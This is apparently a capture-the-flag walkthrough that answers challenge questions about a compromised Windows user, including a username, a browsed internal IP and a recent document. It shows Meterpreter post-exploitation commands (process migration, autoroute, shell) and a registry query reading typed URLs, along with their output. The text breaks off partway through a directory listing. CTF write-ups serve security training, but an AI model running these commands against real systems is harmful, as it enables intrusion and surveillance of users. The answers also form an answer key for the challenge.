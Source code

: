 missile/control/commands34:move:39.271767,127.625128:0615569d

Run the script and use wireshark

==Planner==

===Planner 2===
What is the username of the account?

choe.hang-na

===PTZ Camera 1===

What internal/private IP has this user browsed recently?

<pre>

meterpreter > run post/windows/manage/migrate
meterpreter > run post/multi/manage/autoroute
meterpreter > shell
[*] 192.168.100.10 - Meterpreter session 92 closed.  Reason: Died



reg query "HKCU\Software\Microsoft\Internet Explorer\TypedURLs"
Process 4756 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\choe.hang-na\AppData\Roaming\Microsoft\Windows\Recent>
C:\Users\choe.hang-na\AppData\Roaming\Microsoft\Windows\Recent>
C:\Users\choe.hang-na\AppData\Roaming\Microsoft\Windows\Recent>
C:\Users\choe.hang-na\AppData\Roaming\Microsoft\Windows\Recent>reg query "HKCU\Software\Microsoft\Internet Explorer\TypedURLs"

HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\TypedURLs
    url1    REG_SZ    http://chrome.google.com/
    url2    REG_SZ    http://google.com/
    url3    REG_SZ    http://firefox.com/
    url4    REG_SZ    http://pastebin.com/m0PAk4ri
    url5    REG_SZ    http://192.168.51.66:21042/
    url6    REG_SZ    http://192.168.102.70/
    url7    REG_SZ    https://www.nkcna.ctf/submit_story.html
</pre>

192.168.102.70


===Planner 3===

What recent document was edited?

<pre>
meterpreter > ls
Listing: C:\Users\choe.hang-na\AppData\Roaming\Microsoft\Office\Recent
======================================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  649   fil   2017-02-28 21:05:57 -0500  SimulationAndTestData.LNK
100666/rw-rw-rw-  94    fil   2017-02-24 15:25:10 -0500  index.dat
